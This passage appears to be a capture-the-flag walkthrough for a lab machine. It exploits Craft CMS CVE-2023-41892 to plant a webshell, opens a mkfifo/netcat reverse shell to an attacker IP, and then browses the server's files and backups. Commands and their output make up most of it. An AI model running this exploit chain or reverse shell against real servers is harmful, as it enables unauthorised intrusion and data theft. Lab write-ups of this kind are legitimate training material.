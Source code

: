 And also refer to:
- https://github.com/Faelian/CraftCMS_CVE-2023-41892
- https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce

# Exploitation
`$ git clone https://github.com/Faelian/CraftCMS_CVE-2023-41892.git`
`$ cd CraftCMS_CVE-2023-41892`
`$ python3 -m pip install requests`
`$ python3 craft-cms.py http://surveillance.htb`
```
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Interactive Shell
Listen on the localhost
`$ rlwrap nc -lnvp 9001`

Run on the target
```
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.49 9001 >/tmp/f  
```

Then
```
listening on [any] 9001 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.245] 53736
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@surveillance:~/html/craft/web$ 
```

# Post-Exploitation
Looking for something interesting
```
www-data@surveillance:~/html/craft/web$ ls
cpresources  css  fonts  images  img  index.php  js  web.config
www-data@surveillance:~/html/craft/web$ ls ../
bootstrap.php  composer.lock  craft       storage    vendor
composer.json  config         migrations  templates  web
www-data@surveillance:~/html/craft/web$ ls ../storage/
backups  config-deltas  logs  runtime
www-data@surveillance:~/html/craft/web$ ls ../storage/backups/
surveillance--2023-10-17-202801--v4.4.14.sql.zip
www-data@surveillance:~/html/craft/web$ 
```
